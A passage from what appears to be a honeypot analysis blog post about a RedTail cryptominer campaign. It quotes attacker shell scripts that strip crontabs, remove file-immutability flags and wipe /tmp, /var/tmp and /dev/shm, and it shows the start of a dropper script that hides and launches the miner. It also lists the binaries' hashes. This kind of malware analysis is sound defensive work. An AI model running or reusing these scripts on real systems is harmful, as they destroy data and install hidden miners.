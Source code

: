 ```sh
  [ -f "$user_cron" ] && clean_crontab "$user_cron"
done

for system_cron in /etc/crontab /etc/crontabs; do
  [ -f "$system_cron" ] && clean_crontab "$system_cron"
done

for dir in /etc/cron.hourly /etc/cron.daily /etc/cron.weekly /etc/cron.monthly /etc/cron.d; do
  chattr -ia "$dir"
  for system_cron in "$dir"/*; do
    [ -f "$system_cron" ] && clean_crontab "$system_cron"
  done
done

clean_crontab /etc/anacrontab

for i in /tmp /var/tmp /dev/shm; do
  rm -rf $i/*
done
```

The code did not get fully executed by the cowrie honeypot and the user never tried to login back with the private key. Even though there was no real human interaction between my server and a human, I captured something else: The threat actor uploaded multiple files in addition to the `clean.sh` file.The file uploaded where `redtail.arm7`, `redtail.arm8`, `redtail.i686` and `redtail.x86_64`  all of them are flagged by the AVs on Virustotal. These files are all (bitcoin) miners associated with the **RedTail malware**.

| File name    |  SHA-256 Hash                                                    |
|--------------|------------------------------------------------------------------|
| `redtail.arm7` | a5f837cd3b474a3ba5c81f4e9ae86888938b9dd6b9cf802e3e019d30de1df49d |
| `redtail.arm8` | d3978bf8ba2e285588ea5c7473dac39a25b72fc28664d3e78ffdbdaf85b98f57 |
| `redtail.i686` | bba0ee991bfa68321c51c96e696a6d0209bd1c4c3837bd2a458e026082e428c9 |
| `redtail.x86_64` | 3e1fcc69ff604cf01cf90b5eb69bfadce00274ea910d5e9df95edb5bea341cc9 |


The `setup.sh` file now decides which architecture the computer has and then executes the according binary. Also the script is doing some enumeration what directories are writeable and then moves the malware there to hide it. Finally the script executes one of the malicious binaries.

```sh
#!/bin/bash

get_random_string() {
  len=$(expr $(od -An -N2 -i /dev/urandom 2>/dev/null | tr -d ' ') % 32 + 4 2>/dev/null)

  if command -v openssl >/dev/null 2>&1; then
    str=$(openssl rand -base64 256 2>/dev/null | tr -dc 'A-Za-z0-9' | head -c "$len")
    if [ -n "$str" ]; then
      echo "$str"
      return 0
    fi
  fi

  if [ -r /dev/urandom ]; then
    str=$(tr -dc 'A-Za-z0-9' </dev/urandom 2>/dev/null | head -c "$len")
    if [ -n "$str" ]; then
      echo "$str"
      return 0
    fi
  fi

  if [ -n "$RANDOM" ]; then
```